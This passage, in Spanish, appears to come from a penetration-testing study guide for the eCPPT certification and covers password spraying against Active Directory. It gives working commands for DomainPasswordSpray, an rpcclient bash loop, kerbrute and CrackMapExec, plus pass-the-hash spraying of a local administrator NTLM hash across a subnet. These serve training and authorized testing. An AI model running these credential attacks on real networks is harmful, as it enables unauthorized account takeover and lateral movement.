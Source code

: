 **Realizar Ataque Password Spraying** **DomainPasswordSpray Module**

```powershell
# Importamos el modulo
. .\DomainPasswordSpray.ps1

# Ataque PasswordSpray (en este caso el diccionario de usuarios esta en el mismo directorio)
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
# Filtrando Solamente por positivos, no ponemos user list al ser local
Invoke-DomainPasswordSpray -Password 123456 -Verbose -OutFile spray_success -ErrorAction SilentlyContinue
```

---

##### PASSWORD SPRAYING FROM LINUX

[](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#password-spraying-from-linux)

**Bash One-Liner**

```shell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

**Kerbrute**

```shell
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

**CrackMapExec Password Spraying**

```shell
# Password Spraying, lista de usuarios, contraseña encontrada o realizada
crackmapexec smb 10.10.10.100 -u users.txt -p 'GPPMyPasswordSecret202$'
# Filtrando por positivos
crackmapexec smb 10.10.10.100 -u users.txt -p 'GPPMyPasswordSecret202$' | grep +

# Validar Credenciales
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

**Local Administrator Password Reuse** Si obtenemos acceso administrativo o de maximos privilegios y tenemos la contraseña en texto plano o el hash **NTLM** de la contraseña, podemos intentar utilizarlos en multiples hosts de la red. Por ejemplo si encontramos un administrador local con una contraseña como `$desktop%@admin123` podemos cambiar desktop por `server`, `$server%@admin123`.

```shell
# Local Admin Spraying (Podria darse positivo en varios DCs de la propia subred)
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

### PRIVESC
